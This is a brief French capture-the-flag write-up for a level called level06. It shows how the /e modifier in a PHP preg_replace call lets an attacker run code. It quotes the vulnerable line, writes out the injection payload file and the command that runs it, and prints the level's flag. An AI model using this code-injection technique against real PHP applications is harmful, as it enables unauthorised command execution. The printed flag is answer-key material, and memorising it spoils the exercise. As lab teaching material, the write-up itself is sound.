 Dans ce niveau on a un executable ```level06``` avec un fichier php ```level06.php```

En analysant le fichier php on se rend compte que le programme att un fichier en arg

En explorant ce qui se passe on voit ```$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);``` 

La faille est le ```/e``` qui interpretera le php qu'on lui injecte avant de passer par ```y()```

Donc on va creer un fichier avec le script php qu'on veut en respectant le regex ```echo '[x ${`getflag`}]' > /tmp/injection.txt```

Ensuite on execute le programme avec notre fichier en arg ```./level06 /tmp/injection.txt```

On obtient ainsi le flag = ```wiok45aaoguiboiki2tuin6ub```